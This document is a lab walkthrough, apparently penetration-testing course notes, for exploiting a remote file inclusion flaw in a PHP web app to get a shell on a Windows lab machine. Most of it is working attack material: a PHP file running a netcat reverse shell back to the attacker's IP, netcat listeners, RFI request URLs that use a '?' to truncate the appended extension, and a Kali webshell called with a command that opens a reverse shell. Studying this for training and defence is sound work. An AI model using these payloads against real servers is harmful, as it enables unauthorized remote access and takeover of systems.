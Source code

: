 9.4.4.7

# 9.4.4.7
## 9.4.4.7.1. Exploit the RFI vulnerability in the web application and get a shell.

Note: PHP apps must be configured with *allow_url_include* set to "On".

On Kali, create a file in /var/www/html called cmdshell.txt. This file will contain php code to run a netcat client that sends cmd.exe upon connection.
```plaintext
ali@kali:/var/www/html$ cat cmdshell.txt 
<?php echo exec("nc -nv 192.168.119.214 5678 -e cmd.exe"); ?>
```

Start apache
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on port 5678
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

From  Windows machine, browse to Kali's cmdshell.txt file
192.168.214.10/menu.php?file=http://192.168.119.214/cmdshell.txt
![e1bfe421b8eb82b3aa2d6a8c797408a0.png](../../_resources/76318c58b0da43a988a1bf060a45fe62.png)

Notice we now have a shell
![180d353a143ce988df88cc3c34531a2a.png](../../_resources/b19700a479904583844242f2226645d5.png)



## 9.4.4.7.2. Using **/menu2.php?file=current_menu** as a starting point, use RFI to get a shell.

Start a netcat listener on Kali
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Remember that sometimes the server will append .php to any file. Use a null byte or ? to terminate the string so that you have more flexibility in which files you use for RFI. In this case, we add a ? to menu2.php and cmdshell.txt

Browse to this site:
`http://192.168.214.10/menu2.php?file=current_menu?&file=http://192.168.119.214/cmdshell.txt?`
![6e4c1b3daa0dbab31a5cb59e86187520.png](../../_resources/339db707d9724dffad533dd300c6fa86.png)

Notice we now have a shell
![74cac672972b57b60322a62854512687.png](../../_resources/f1cfcf9398904071a7f735db8c95eec9.png)



## 9.4.4.7.3. Use one of the webshells included with Kali to get a shell on the Windows 10 target.

Copy simple.backdoor.php to web root
```plaintext
kali@kali:/var/www/html$ sudo cp /usr/share/webshells/php/simple-backdoor.php 
```

Change the extension file from .php to .txt
```plaintext
kali@kali:/var/www/html$ sudo mv simple-backdoor.php simple-backdoor.txt
```

Restart apache2
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on Kali port 5678
```plaintext
kali@kali:~$ sudo nc -lnvp 5678
listening on [any]
```

Browse to the site
http://192.168.214.10/menu.php?file=http://192.168.119.214/simple-backdoor.txt&cmd=nc+-nv+192.168.119.214+5678+-e+cmd.exe
![4eeed43611fa80171aeef6af5bc4bf12.png](../../_resources/5277992639e74044aa5185bd8a40da02.png)

Notice we have a shell
![a64dec96b8a226a0948c05eed6565b0a.png](../../_resources/f7560a4c71b34ec2a951c5dc61599837.png)






